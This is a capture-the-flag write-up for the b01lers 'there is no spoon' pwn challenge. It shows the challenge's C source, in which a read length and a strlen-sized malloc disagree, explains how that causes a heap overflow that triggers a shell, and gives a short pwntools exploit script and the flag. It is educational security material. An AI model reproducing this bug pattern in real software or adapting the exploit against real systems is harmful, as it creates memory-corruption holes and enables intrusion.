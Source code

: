 ## b01lers bootcamp: there is no spoon [pwn]
![](spoon_description.png)

#### We are given a binary and it's source code making it easier to analyze. The vulnerability was tricky here (i dunno for others but for me it was), it relies on the reassignment of the len value. On the first read, len gets assigned to how many bytes the read function has, well, read. Next is with the allocation for buffer2, the size depends on the strlen of the first user-input provided buffer. 

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>

char * xor(char * src, char * dest, int len) {
    for(int i = 0; i < len - 1; i++) {
        dest[i] = src[i] ^ dest[i];
    }
    dest[len-1] = 0;
    return dest;
}

int main() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    char buffer[256];
    int len = 256;

    printf("Neo, enter your matrix: ");
    len = read(0, buffer, len);

    char * buffer2 = malloc(strlen(buffer));

    int * changeme = malloc(sizeof(int));
    *changeme = 255;
    printf("Reality: %d\n", *changeme);
    
    printf("Make your choice: ");
    len = read(0, buffer2, len);

    printf("Now bend reality. Remember: there is no spoon.\n");
    char * result = xor(buffer2, buffer, len);
    printf("Result: %s\n", result);
    printf("Reality: %d\n", *changeme);

    if (*changeme != 0xff) {
        system("/bin/sh");
    }
}

```

#### Since read continues to read input even if it encounters nullbytes and sets the len value to how many bytes were read, we can trigger an overflow on the heap simply by null terminating our first input and appending more values to it. The len will then be set to how many bytes our input is, but strlen() will only read until it encounters a null byte. In the next prompt for input (`read(0, buffer2, len)`), we can input more bytes than the size the buffer was allocated with and are able to overwrite stuff on the heap (which includes the changeme value)

```python
from pwn import *

#: p = process('./thereisnospoon')
script = '''
break *main + 125
break *main + 151
break *main + 173
break *main + 244
break *main + 368
'''
#: gdb.attach(p.pid, gdbscript=script)
p = remote('chal.ctf.b01lers.com', 1006)
print(p.recv())

p.sendline(cyclic(100) + '\x00' * 155)
print(p.recvuntil('choice: '))
p.sendline('A' * 256)
p.interactive()

#: flag{l0tz_0f_confUsi0n_vulnz}
```